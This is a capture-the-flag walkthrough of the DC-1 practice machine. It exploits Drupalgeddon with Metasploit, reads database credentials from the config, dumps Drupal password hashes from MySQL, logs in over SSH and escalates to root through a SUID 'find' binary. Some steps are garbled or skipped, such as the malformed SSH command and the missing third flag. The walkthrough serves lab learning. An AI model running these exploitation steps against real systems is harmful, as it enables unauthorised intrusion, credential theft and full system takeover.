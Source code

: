 # DC 1 Walkthrough

### Exploiting Drupalgeddon

```sh
msfconsole -q
search Drupalgeddon
use 0
set RHOSTS <target-ip>
exploit
#shell
python -c "import pty; pty.spawn('/bin/bash')"
```

### Retrieving the First Flag

```sh
cat flag1.txt
```

**Flag1**
> Every good CMS needs a config file—and so do you.

### Finding Database Credentials

```php
array (
 'database' => 'drupaldb',
 'username' => 'dbuser',
 'password' => 'R0ck3t',
 'host' => 'localhost',
 'port' => '3306',
 'driver' => 'mysql',
 'prefix' => '',
)
```

**Flag 2**
> Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access).
> What can you do with these credentials?

### Accessing MySQL

```sh
mysql -u dbuser -pR0ck3t -h localhost
SELECT name, pass FROM users;
```

```
admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg
```


```sh
ssh ip@fred
cd /home
cat flag4
```

**flag4**
> Can you use this same method to find or access the flag in root?
> Probably. But perhaps it's not that easy. Or maybe it is?


```sh
find / -perm -u=s 2>/dev/null
find /dev -name null -exec /bin/bash \;
## Accessing the Root Directory
cd /root
cat thefinalflag.txt
```
## Final Flag

**Congratulations!**

> Well done!
> Hopefully you've enjoyed this and learned some new skills.
> You can let me know what you thought of this little journey by contacting me via Twitter - @DCAU7
---

